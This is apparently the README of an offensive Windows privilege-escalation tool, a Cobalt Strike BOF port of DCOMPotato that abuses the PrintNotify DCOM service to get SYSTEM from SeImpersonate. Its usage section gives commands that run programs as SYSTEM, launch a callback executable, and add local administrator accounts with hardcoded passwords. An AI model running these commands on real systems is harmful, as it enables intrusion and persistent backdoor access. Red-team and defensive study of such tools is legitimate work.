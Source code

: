 # BOF - DCOMPotato - PrintNotify

BOF version of [DCOMPotato](https://github.com/zcgonvh/DCOMPotato). Obtain SYSTEM privilege with `SeImpersonate` privilege by passing a malicious `IUnknwon` object to DCOM call of PrintNotify.

By default, [ImpersonationLevel](https://learn.microsoft.com/en-us/windows/win32/com/com-impersonation-level-constants) of PrintNotify service, which was run as SYSTEM, set as `RPC_C_IMP_LEVEL_IMPERSONATE` 

````
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost\print
````



### Usage

```
--pprog : program to launch. Default cmd.exe
--pargs : command line argument to pass to program. Default NULL
--pmode : create process call. 1 for CreateProcessWithTokenW. 2 for CreateProcessAsUser. 3 for NetUserAdd. Default 1
```

execute command with `CreateProcessWithTokenW`

```
DCOMPotato --pargs /c whoami /all > C:\temp\whoami.txt
```

execute command with `CreateProcessAsUser`

```
DCOMPotato --pargs /c net user hagrid P@ssw0rd /add --pmode 2
```

execute program with  `CreateProcessWithTokenW`

```
DCOMPotato --pprog C:\temp\callback.exe
```

create local administrator account (hagrid\\P@ss@29hagr!d) with NetUserAdd

```
DCOMPotato --pmode 3
```



### Compile

```
cl /c /GS- /FoDCOMPotato.x64.o /TP DCOMPotato.cpp
```



### Take Away

- You cannot create new object with C++ in Cobalt Strike when loading BOF. You can use struct to implement COM in C instead. Here is a [guide](https://www.codeproject.com/Articles/13601/COM-in-plain-C)
- `==` sign could be overloaded. It was overloaded as `IsEqualGUID` in my case
- Using flag `LOGON_TYPE_NEW_CREDENTIALS` can create a token that can be used for impersonate from `LogonUser` without providing valid credential
- According to the [document](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera), a process that calls `CreateProcessAsUser` require `SE_INCREASE_QUOTA_NAME` and `SE_ASSIGNPRIMARYTOKEN_NAME` privilege.



### References

+ [DCOMPotato](https://github.com/zcgonvh/DCOMPotato)
+ https://github.com/rapid7/metasploit-framework/blob/master/external/source/exploits/ntapphelpcachecontrol/exploit/CaptureImpersonationToken.cpp
+ https://www.codeproject.com/Articles/13601/COM-in-plain-C
+ [MultiPotato](https://github.com/S3cur3Th1sSh1t/MultiPotato)



